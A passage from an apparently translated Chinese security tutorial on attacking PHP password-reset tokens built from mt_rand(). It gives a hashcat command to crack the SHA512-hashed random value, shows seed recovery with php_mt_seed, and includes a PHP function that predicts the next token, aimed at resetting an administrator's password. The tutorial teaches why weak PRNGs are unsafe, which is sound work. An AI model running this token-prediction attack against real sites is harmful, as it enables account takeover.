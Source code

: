 这模仿我们从请求A能获取的那个SHA512后的hash，并且接下来我们把它放在hashcat里跑一下。

```
./oclHashcat-lite64 -m1700 --pw-min=1 --pw-max=10 -1?d -o ./seed.txt <SHA512 Hash> ?d?d?d?d?d?d?d?d?d?d

```

这是所有的参数的意思

```
-m1700: 定义hash的算法，1700的意思就是SHA512
-pw-min=1 定义hash加密之前的数字的最小的长度
-pw-max=10 定义hash加密之前数字的最大的长度
-1?d 定义我们自定义的字典是仅包含数字
-o ./seed.txt 输出的文件会被重写，别忘了不会有输出在屏幕上。
?d?d?d?d?d?d?d?d?d?d: 表示格式，最长10位，全是数字。

```

如果一切顺利，你的GPU也没有爆炸，hashcat几分钟内会找出随机数hash之前的原文是什么，是的，是几分钟，我先前花了一些时间去解释熵池是怎么工作的，然后你现在就可以在练习中明白，`mt_rand()`产生结果的可能性是如此的少，以至于SHA512加密后我的所有结果我们很短一段时间就计算结束了，使用hash去处理`mt_rand`的结果几乎没有什么用。

关于hashcat的一些其他用法可以参考之前drops的文章：[GPU破解神器Hashcat使用简介](http://drops.wooyun.org/tools/655)

#### 第四步：通过我们获取的随机数去恢复随机数种子

我们上面说到了，SHA512后的数字解出来只需要几分钟。这会告诉你接下来干什么，通过这个随机数，我们接下来要在跑一个脚本来暴力破解，这个工具叫做php_mt_seed。这是一个小工具，它的作用是取出`mt_rand`的结果并且暴力破解定位哪些随机数种子会生成那个我们刚才获取的随机数，你可以在[http://download.openwall.net/pub/projects/php_mt_seed/](http://download.openwall.net/pub/projects/php_mt_seed/)下载对应的版本，如果出现问题的话，你可以选择一个老一点的版本（最新的版本在我在虚拟环境里测试的时候有些问题）。

```
./php_mt_seed <对应的随机数>

```

这要花比算SHA512要长的时间。它烧的是CPU，不过它会在CPU上尝试任何可能的随机数种子，这将会出现一个或多个随机数种子（也就是这些随机数种子都能产生这个数字）。

在上一步，我们暴力破解获取这个随机数的种子，因为mt_rand调用的种子数不多，这里有另外一个使用python编写的暴力破解mt_rand的工具：[https://github.com/GeorgeArgyros/Snowflake](https://github.com/GeorgeArgyros/Snowflake)

#### 第五步：生成可用的token来尝试重置管理员的密码

Assuming that the total calls to mt_rand() across both Request A and Request B were just two, you can now start predicting the token with the candidate seeds using:

假设在请求A和请求B中调用mt_rand的最大次数是两次，接下来你可以使用我们获取的seed们（有候选的）来预测下一个token是什么。

```
function predict($seed) {
    /**
     * Seed the PRNG
     */
    mt_srand($seed);
    /**
     * Skip the Request A call to the function
     */
    mt_rand();
    /**
     * Predict and return the Request B generated token
     */
    $token = hash('sha512', mt_rand());
    return $token;
}

```

